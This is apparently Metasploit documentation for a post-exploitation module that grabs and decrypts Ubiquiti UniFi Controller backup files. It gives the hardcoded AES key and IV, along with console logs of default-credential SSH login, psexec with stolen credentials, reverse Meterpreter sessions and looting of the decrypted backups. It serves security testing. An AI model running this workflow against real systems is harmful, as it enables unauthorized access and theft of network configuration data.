 ## Vulnerable Application

  This module works against UniFi Network Controller (5.10.19 confirmed, most likely others), to download any backup and
  autobackup files (.unf extension).  These files are AES encrypted zip files which use the IV `ubntenterpriseap` and
  key `bcyangkmluohmars`.  The unf zip file is then decrypted, however it contains an error in the file.  Utilizing
  `zip -FF` the file can be repaired and opened (some reports say 7zip can open the errored file).  If `zip` is
  available on the system, this operation is performed and the result saved to loot as well.

  This work is based on zhangyoufu's [unifi-backup-decrypt](https://github.com/zhangyoufu/unifi-backup-decrypt)
  and justingist's [POSH-Ubiquiti](https://github.com/justingist/POSH-Ubiquiti/blob/master/Posh-UBNT.psm1).  

### Install Instructions

  1. Download the file from https://www.ui.com/download/unifi (Java required on Windows)
  2. Install with default parameters
  3. Login to `https://localhost:8443/manage` and click the gear icon in the bottom left
  4. Select `Maintenance` then click `DOWNLOAD BACKUP` to create the backup file.

## Verification Steps

  1. Install the application
  2. Get a shell
  3. Do: ```use post/multi/gather/ubiquiti_unifi_backup```
  4. Do: ```set session #```
  5. Do: ```run```

## Scenarios

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Ubuntu 18.04

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use auxiliary/scanner/ssh/ssh_login
resource (unifi.rb)> set username unifi
username => unifi
resource (unifi.rb)> set password unifi
password => unifi
resource (unifi.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unifi.rb)> run
[+] 2.2.2.2:22 - Success: 'unifi:unifi' 'uid=1000(unifi) gid=1000(unifi) groups=1000(unifi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare) Linux unifi 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:33389 -> 2.2.2.2:22) at 2019-03-10 15:58:18 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (unifi.rb)> sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 1.1.1.1:4433 
[*] Sending stage (985320 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4433 -> 2.2.2.2:37124) at 2019-03-10 15:58:25 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 2
session => 2
resource (unifi.rb)> run

[*] File /var/lib/unifi/system.properties saved to /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[-] Directory doesn't exist: /data/autobackup
[+] Found backup folder: /var/lib/unifi/backup
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip.
[*] Post module execution completed
```

#### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
2.2.2.2                 ubiquiti.system.properties                /var/lib/unifi/system.properties                              text/plain                                                              /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
2.2.2.2                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
2.2.2.2                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip
2.2.2.2                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip
```

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Windows 2012

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use exploit/windows/smb/psexec
resource (unifi.rb)> set smbpass Password123
smbpass => Password123
resource (unifi.rb)> set smbuser Administrator
smbuser => Administrator
resource (unifi.rb)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (unifi.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 4.4.4.4:445 - Connecting to the server...
[*] 4.4.4.4:445 - Authenticating to 4.4.4.4:445 as user 'Administrator'...
[*] 4.4.4.4:445 - Selecting PowerShell target
[*] 4.4.4.4:445 - Executing the payload...
[+] 4.4.4.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (179779 bytes) to 4.4.4.4
[*] Meterpreter session 3 opened (1.1.1.1:4444 -> 4.4.4.4:61034) at 2019-03-10 15:58:32 -0400

meterpreter > background
[*] Backgrounding session 3...
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 3
session => 3
resource (unifi.rb)> run
[*] File C:\Users\Administrator\Ubiquiti UniFi\data\system.properties saved to /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
[+] Read UniFi Controller file C:\Users\Administrator\Ubiquiti UniFi\data\system.properties
[+] Found backup folder: C:\Users\Administrator\Ubiquiti Unifi\data\backup
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip.
[*] Post module execution completed
[*] Starting persistent handler(s)...
```

#### Details

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-OBKF2JFCDKL
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 3...
msf5 post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
4.4.4.4                 ubiquiti.system.properties                C:\Users\Administrator\Ubiquiti UniFi\data\system.properties  text/plain                                                              /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
4.4.4.4                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
4.4.4.4                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip
4.4.4.4                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip
```
